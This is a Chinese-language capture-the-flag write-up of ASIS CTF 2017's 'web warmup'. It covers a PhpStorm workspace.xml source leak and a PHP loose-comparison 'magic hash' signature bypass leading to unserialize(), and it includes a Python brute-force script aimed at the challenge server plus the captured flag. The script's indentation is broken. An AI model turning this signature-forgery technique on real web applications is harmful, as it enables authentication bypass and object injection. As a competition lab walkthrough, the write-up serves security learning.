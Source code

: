 # ASISctf2017 'web warmup' writeup

这道题根据题目提示，作者在服务器上使用了 ide 编写代码。查看网页源文件发现作者使用的是 phpstorm，网上寻找 phpstorm 源代码泄露的文章，知道 phpstorm 的 project 文件夹下有一个.idea文件夹，这个文件夹里面有一个 workspace.xml 泄露了这个 project 的详细信息。

```xml
<component name="IdeDocumentHistory">
<option name="changedFiles">
<list>
<option value="$PROJECT_DIR$/backup/panel.class.php.bk"/>
</list>
</option>
</component>
```

其中在 changedFiles 中找到了这个文件，审计源码

```php
$realSign = md5($payload.$this->__sessionKey);

            /**
             * making it impossible to login, if the site is under maintenance,
             */
            if(__MAINTENANCE__===true)
                $realSign = substr($realSign, 0, 6);

            /**
             * checking signature, prevent to data forgery by user
             */
            if($realSign == $signature){	//弱类型比较
                $this->data = unserialize($payload);
```

发现有个弱类型比较，一开始爆破的姿势错误，去爆破 signature 的值，一直爆破不出来而且网络状况也不太好。后来才知道__sessionKey 无法获取，但是__sessionKey是一直不变的，所以可以爆破 payload，来让 realSign 等于0e1234这样的字符串，signature 也等于0e11111111...111这样的字符串，这两个字符串会被转化成数字类型，也就是0，比较的话就是相等的了。爆破的概率还是蛮高的

1/16 * 1/16 * (10/16) ** 4

最后7000多次的时候成功了。然后成功 login，panel.class.php 里面有 index 函数、flag 函数、downloadSource 等函数，猜测 url 是index?auth的情况下调用的是 index 函数，那么把 url 改成flag?auth=就调用了 flag 函数了获取 flag。

爆破脚本

```python
#!/usr/bin/env python
#coding=utf-8

from pwn import *
import requests
import base64

# loginString = base64.b64encode(username + ':' + password) 
# r = s.get('http://46.101.96.182/authentication/login/'+loginString)
# print r.text

print "----------------------"
print "request auth"
print "----------------------"

i = -1
hash_str = '0e' + 30 * '1'
serialized_pd = 'a:2:{s:6:"logged";b:1;s:4:"flag";i:%d;}' % i
payload = base64.b64encode(serialized_pd)
params = { 'auth': payload + hash_str }
while True:
    i = i + 1
	try:
    	r = requests.get('http://46.101.96.182/panel/flag', params = params, timeout = 10)
    	r.raise_for_status()
    	print r.url
    	print r.content
    	if 'login required' in r.text:
        	sys.exit(0)
    	with open("final_result.html", "w") as f:
        	print "write to file"
        	f.write(r.content)
        	print "write to file success"
	except Exception as e:
    	print "Exception!", e
f.close()

```



flag:** ASIS{An0th3R_Tiny_Obj3c7_Inject1oN_L0L!!!}



把 url 改成 downloadSource?auth=… 下载了 source.zip，但是下载下来没法解压缩，binwalk 查看发现这个文件包含了 html header，剩下的是很多段的 zip compressed data， 用 dd 去除 html header 之后，用 unzip 还是报错，用 tar xvf 也报错，然后手滑输入了 jar xvf 竟然解压缩成功了！明明 file 和 binwalk 都显示是 zip 文件的说。然后尝试了一下用 jar 打包一个文件，然后用 file 查看文件类型，显示是Java archive data (JAR)。总感觉有点神奇。。。


